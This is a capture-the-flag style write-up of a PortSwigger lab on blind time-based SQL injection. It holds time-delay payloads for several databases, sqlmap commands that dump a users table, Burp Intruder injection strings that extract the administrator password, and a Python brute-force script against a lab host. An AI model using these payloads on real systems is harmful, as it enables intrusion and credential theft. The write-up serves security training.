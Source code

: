 # [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the administrator user.

## conditional time delay

- oracle:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;`
```

- mssql:

```sql
SELECT 'b' FROM demo WHERE '1'='1' WAITFOR DELAY '0:0:10';`
```

- postgresql:

```sql
select * from scientist WHERE (SELECT 'a' FROM pg_sleep(5))='a';`
```

- mysql:

```sql
SELECT 'a' FROM Test WHERE (SELECT SLEEP(0))=1;
```

## tools

sqlmap:

- sqlmapr:

```http
GET /filter?category=* HTTP/1.1
Cookie: TrackingId=*;
```

- `sqlmap -r sqlmapr -batch` => postgresql
- `sqlmap -r sqlmapr --dbms=postgresql -dbs -batch` => public
- `sqlmap -r sqlmapr --dbms=postgresql -D public --tables -batch` => users
- `sqlmap -r sqlmapr --dbms=postgresql -D public -T users --dump -batch` => boom

## manual

1. detected postgresql based on time delay:

    `TrackingId='||pg_sleep(10)--;`

2. find length of admin password using burp's intruder:

    - positions:

        ```http
        TrackingId='%3b+SELECT+CASE+WHEN+(SELECT+LENGTH(password)+FROM+users+WHERE+username%3d'administrator')%3d'§§'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--+;
        ```

    - payloads: 1->30
    - resource pool: maximum concurrent requests: 1
    - add column `response received`
    - result: 20

        ![length password](./../img/lab-14-length-password.png)

3. Find password: using SUBSTRING (postgresql) and burp's intruder.

    - attack mode: cluster bomb
    - positions:

        ```sql
        TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;
        ```

    - payloads:
    - Set 1: 1->20 (length of password)
    - Set 2: a->z 1->9
    - result:
        ![result.png](./../img/lab-14-result.png)

4. Login to admin account => Lab Solved

## Python

fail: every response has only 1 second delay, cookie passing problem ?

```python
import requests

len_password=20
host='http://0a96008804637cf2c093efdd000f0096.web-security-academy.net/'
cookies = {'TrackingId': 'a', 'session': 'OAdNNdXedgMwEVRd6H6I1kgZYpAs0dRY'}

password = ''

all_characters = 'a1234567890qwertyuiopsdfghjklzxcvbnm'

for i in range(1, len_password + 1):
    for c in all_characters:
        cookies.update({'TrackingId': f"x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{i},1)='{c}')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--"})
        resp = requests.get(host, cookies=cookies)
        print(resp.request.headers)
        print(c + ":" + str(resp.elapsed.total_seconds()))
        if resp.elapsed.total_seconds() > 10:
            password += c
            print('Password:' + password)
            break
```
